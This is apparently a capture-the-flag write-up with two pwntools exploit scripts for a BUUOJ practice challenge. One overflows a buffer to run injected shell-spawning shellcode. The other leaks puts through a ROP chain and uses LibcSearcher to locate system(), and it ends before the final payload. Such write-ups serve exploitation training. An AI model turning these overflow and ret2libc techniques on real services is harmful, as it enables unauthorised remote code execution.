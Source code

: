 

本地打通

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
from struct import pack
context(arch='amd64',os='linux',log_level='debug')

ip = 'node5.buuoj.cn'
port = 25854

r=remote(ip,port)

shellcode=asm(shellcraft.sh())

r.recvuntil('tell me your name')

r.sendline(shellcode)

use_addr = 0x601080

payload=flat(['a'*0x28,use_addr])

r.recvuntil('What do you want to say to me?')

r.sendline(payload)

r.interactive()
```





### libcSearcher

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
 
#p = process('./pwn')
p = remote('node5.buuoj.cn',25854)
elf = ELF('./111')
 
#gdb.attach(p, 'b *0x4006a9')
plt_addr =elf.sym['puts']
got_addr =elf.got['puts']
main_addr =0x400636
ret_addr =0x4004c9
rdi_addr =0x400713
name_addr =0x601080
 
p.sendafter(b'name\n', b'1')
 
payload =b'a'*(0x20 +8) +p64(rdi_addr) +p64(got_addr) +p64(plt_addr) +p64(main_addr)
p.sendlineafter(b'me?\n', payload)
 
puts_addr =u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
libc =LibcSearcher('puts',puts_addr)
libc_base =puts_addr -libc.dump('puts')
system =libc_base + libc.dump('system')
 
p.sendafter(b'name\n', b'/bin/sh\x00')
```